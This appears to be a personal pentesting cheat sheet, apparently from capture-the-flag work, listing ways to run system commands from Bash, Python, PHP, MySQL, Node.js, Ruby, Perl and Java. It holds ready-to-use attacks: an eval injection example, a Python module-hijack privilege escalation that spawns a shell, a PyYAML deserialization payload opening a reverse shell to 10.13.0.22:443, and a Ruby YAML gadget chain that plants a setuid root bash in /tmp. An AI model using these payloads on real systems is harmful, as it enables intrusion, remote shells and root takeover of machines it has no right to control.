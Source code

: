 
## Eval
- exists in Bash and Python, involves user inputs
in bash:
```
eval "echo Hello World"  # prints Hello World
```
exploit with:
```
user_input='$(whoami)'
eval "echo $user_input"  # executes `whoami`
```

in python:
```
user_input = "__import__('os').system('whoami')"
eval(user_input)  # executes OS command
```
## Bash
```
echo ${whoami}
```

## Python
```
import subprocess
output = subprocess.check_output('whoami', shell=True)
print(output.decode())
```
- execute system commands
- can also use:
```
import os
os.system('whoami')
```

hijacking imported module for priv esc
- user has sudo privs for python script that imports "random" module
- in same directory as script, run:
```
echo "import os" > random.py
```
- creates first line of new file. then:
```
echo 'os.system("/bin/bash")' >> random.py
```
- `cat random.py` should show:
```
import os
os.system("/bin/bash")
```
- then make modifiable:
```
chmod +x random.py
```
- set current directory as pythonpath:
```
export PYTHONPATH=/home/alice:$PYTHONPATH
```
- then run the command that has sudo privs:
```
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
- should create shell as rabbit user
#### Python2 v Python3
- absence of parentheses in print argument indicates script is written in python 2
	- Python 2: print is a statement, so parentheses are optional unless needed for grouping.
	- Python 3: print is a function, so parentheses are required:
		- Ex: `print("Website is up")`
- Using `input()` in Python2 can lead to security vulnerabilities because it evaluates user input as code.
	- Python 2:
		- `input()` function:
			 - Parses the user input as a Python expression using `eval()`
			- Equivalent to `eval(raw_input(prompt))`
			- Dangerous if user input is not trusted, as it can execute arbitrary code.
		- `raw_input()` function:
			- Reads user input as a string without evaluation.
	- Python 3:
		- `input()` function:
			- Reads user input as a string.
			- Equivalent to `raw_input()` in Python 2.
		- `raw_input()` function:
			- Removed in Python 3.
			- If you need to evaluate user input as code (which is generally discouraged), you must explicitly use `eval()`

PyYAML deserialization attacks
```
import yaml

data = """
!!python/object/new:os.system
- echo EXPLOIT!
"""
yaml_data = yaml.load(data)
```
- unsafe example: yaml.load is unsafe
```
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "import os; os.system('bash -c \"bash -i >& /dev/tcp/10.13.0.22/443 0>&1\"')"
```
- rev shell payload (replace IP and port for `nc` listener)

---
#### PHP
```
<?php
echo shell_exec('whoami');
```
- can also execute code with `exec()` or `system()`

```
php -a
```
- bash to get an interactive php terminal
#### MySQL
```
SELECT sys_exec('whoami');
```
- only works if lib_mysqludf_sys is installed
	- otherwise, need to escape

---
#### Node.js (Javascript)
```
const { exec } = require('child_process');

exec('whoami', (error, stdout, stderr) => {
    if (error) {
        console.error(`Error: ${error.message}`);
        return;
    }
    if (stderr) {
        console.error(`Stderr: ${stderr}`);
        return;
    }
    console.log(`Output: ${stdout}`);
});
```
- `child_process` to execute

---
#### Ruby
```
puts `whoami`
```
- backticks to execute or `system()`:
```
system('whoami')
```

Ruby YAML Deserialization privesc:
```
def list_from_file
    YAML.load(File.read("dependencies.yml"))
end
```
- unsafe YAML code, which was part of a script that user can run with sudo perms
```
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```
- POC to save dependencies.yml file in example above 
	- saving in any writable directory should work; does not have to be in the same directory as the ruby script
- if upon running script with unsafe yaml again, should see `id` output (in addition to potential error messages), means POC worked. Replace with malicious payload:
```
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: cp /bin/bash /tmp/0xdf; chmod 6777 /tmp/0xdf
         method_id: :resolve
```
- copies bash to `/tmp/0xdf` then modifies setid and setgid so anyone can run it and it runs as root
```
/tmp/0xdf -p
```
- root shell

---
#### Perl
```
system('whoami');
```

---
#### Java
```
import java.io.*;

public class Main {
    public static void main(String[] args) throws Exception {
        Process process = Runtime.getRuntime().exec("whoami");
        BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
        String line;
        while ((line = reader.readLine()) != null) {
            System.out.println(line);
        }
    }
}
```
- `Runtime.getRuntime().exec()` to execute system commands